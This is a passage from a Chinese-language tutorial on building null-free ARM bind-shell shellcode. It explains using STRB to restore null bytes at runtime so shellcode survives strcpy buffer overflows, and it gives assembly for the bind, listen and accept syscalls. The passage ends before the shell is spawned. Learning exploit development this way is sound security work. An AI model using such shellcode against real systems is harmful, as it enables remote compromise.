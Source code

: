 我们需要处理掉所有的 null 字节，以便让我们的 shellcode 能够适配许多漏洞利用场景，因为某些漏洞利用技术针对的是内存损坏漏洞，而这种漏洞可能对 null 字节比较敏感。如果开发者没有正确使用诸如 strcpy 之类的函数，那么就会造成缓冲区溢出。 strcpy 的任务是拷贝数据，遇到 null 字节时才停止工作。我们利用缓冲区溢出来接管程序的执行流程，如果 strcpy 碰到 null 字节，那么它会停止复制我们的 shellcode ，因此我们的漏洞利用过程就无法顺利完成。使用 STRB 指令后，我们可以从寄存器中取出 null 字节，在执行过程中修改我们的代码。这样一来，虽然实际上我们的 shellcode 中没有包含 null 字节，但可以通过动态方式将 null 值添加到合适的位置中。为了实现这个功能，我们需要可写的代码段，只需在程序链接过程中使用 -N 标志即可。

这样处理后，我们的代码中已经不包含 null 字节，需要的时候再将 null 字节动态存放到合适的位置。如下图所示，我们最开始使用的是 1.1.1.1 这个 IP 地址，在执行过程中，这个地址会被替换为 0.0.0.0。
![/img/2018-01-15/t012ffe38e91bc6345f.png](https://p3.ssl.qhimg.com/t012ffe38e91bc6345f.png)

第一条STRB指令会将 x02xff 中 xff 这个占位符替换为 x00，以便将 AF_INET设置为 x02x00 。那么我们怎么知道我们使用的是一个 null 字节呢？原因是 r2 寄存器存放的恰恰就是 0。还记得前面我们用过的 sub r2, r2, r2 指令吗？这条指令会将 r2 寄存器清零。接下来的 4 条指令会将 1.1.1.1 替换为 0.0.0.0 。如果你不想在 strb r2, [r1, #1] 指令后面使用 4 条 strb 指令，那么你可以使用 1 条 str r2, [r1, #4] 指令，也会起到同样效果。

mov 指令会将 sockaddr_in 结构的长度值（16个字节，其中 AF_INET 占了 2 字节， PORT 占了 2 字节， IP 地址占了 4 字节，还有 8 字节的填充数据）存放到 r2 中。接下来，我们将 r7 的值加 1，变成 282 ，因为上一条系统调用后 r7 的值为 281 。
```
// bind(r0, &sockaddr, 16)
    adr  r1, struct_addr   // pointer to address, port
    strb r2, [r1, #1]     // write 0 for AF_INET
    strb r2, [r1, #4]     // replace 1 with 0 in x.1.1.1
    strb r2, [r1, #5]     // replace 1 with 0 in 0.x.1.1
    strb r2, [r1, #6]     // replace 1 with 0 in 0.0.x.1
    strb r2, [r1, #7]     // replace 1 with 0 in 0.0.0.x
    mov r2, #16
    add r7, #1            // r7 = 281+1 = 282 (bind syscall number) 
    svc #1
    nop
```

### 3 - 监听连接
![/img/2018-01-15/t01de8b99aabf2d12f5.png](https://p3.ssl.qhimg.com/t01de8b99aabf2d12f5.png)

这个步骤中，我们将之前保存的 host_sockid 存放到 r0 中。将 R1 设置为 2 ，让 r7 的值加 2 （因为上一个系统调用后 r7 为 282 ）。
```
mov     r0, r4     // r0 = saved host_sockid 
mov     r1, #2
add     r7, #2     // r7 = 284 (listen syscall number)
svc     #1
```

### 4 - 接受连接
![/img/2018-01-15/t0105cd67b5fc621e1e.png](https://p3.ssl.qhimg.com/t0105cd67b5fc621e1e.png)

这里我们同样需要将前面保存的 host_sockid 存放到 r0 中。由于我们要避开 null 字节，因此我们不会直接将 #0 移动到 r1 和 r2 中，相反，我们通过减法让这些寄存器清零。然后将 R7 值加 1 。调用完成后我们可以得到 client_sockid ，将这个值存放到 r4 中即可，此时我们已经不再需要将 host_sockid 保存到这个位置（我们会跳过 C 代码中的 close 函数调用语句）。
```
    mov     r0, r4          // r0 = saved host_sockid 
    sub     r1, r1, r1      // clear r1, r1 = 0
    sub     r2, r2, r2      // clear r2, r2 = 0
    add     r7, #1          // r7 = 285 (accept syscall number)
    svc     #1
    mov     r4, r0          // save result (client_sockid) in r4
```
